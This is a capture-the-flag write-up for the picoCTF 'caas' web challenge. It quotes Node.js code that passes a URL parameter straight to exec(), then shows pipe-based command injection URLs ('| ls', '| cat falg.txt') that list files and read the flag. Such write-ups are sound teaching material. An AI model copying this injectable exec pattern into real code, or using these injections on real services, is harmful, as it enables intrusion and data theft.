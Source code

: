 # Challange Info

Name : caas

Difficulty : Medium

Category : Web Exploitation

Link : https://play.picoctf.org/practice/challenge/202?category=1&page=3

# Writeup

The webpage shows following message.

```
Make a request to the following URL to cowsay your message:
https://caas.mars.picoctf.net/cowsay/{message}
```

Making a simple request with flag.

`https://caas.mars.picoctf.net/cowsay/flag` and this returns a simple ascii art of cow saying flag.

Going through the source code.

```javascript
const express = require('express');
const app = express();
const { exec } = require('child_process');

app.use(express.static('public'));

app.get('/cowsay/:message', (req, res) => {
  exec(`/usr/games/cowsay ${req.params.message}`, {timeout: 5000}, (error, stdout) => {
    if (error) return res.status(500).end();
    res.type('txt').send(stdout).end();
  });
});

app.listen(3000, () => {
  console.log('listening');
});
```

The webapp has command injection.

`https://caas.mars.picoctf.net/cowsay/flag | ls` returns list of files.

```Dockerfile
falg.txt
index.js
node_modules
package.json
public
yarn.lock
```

`https://caas.mars.picoctf.net/cowsay/flag | cat falg.txt` returns the flag.
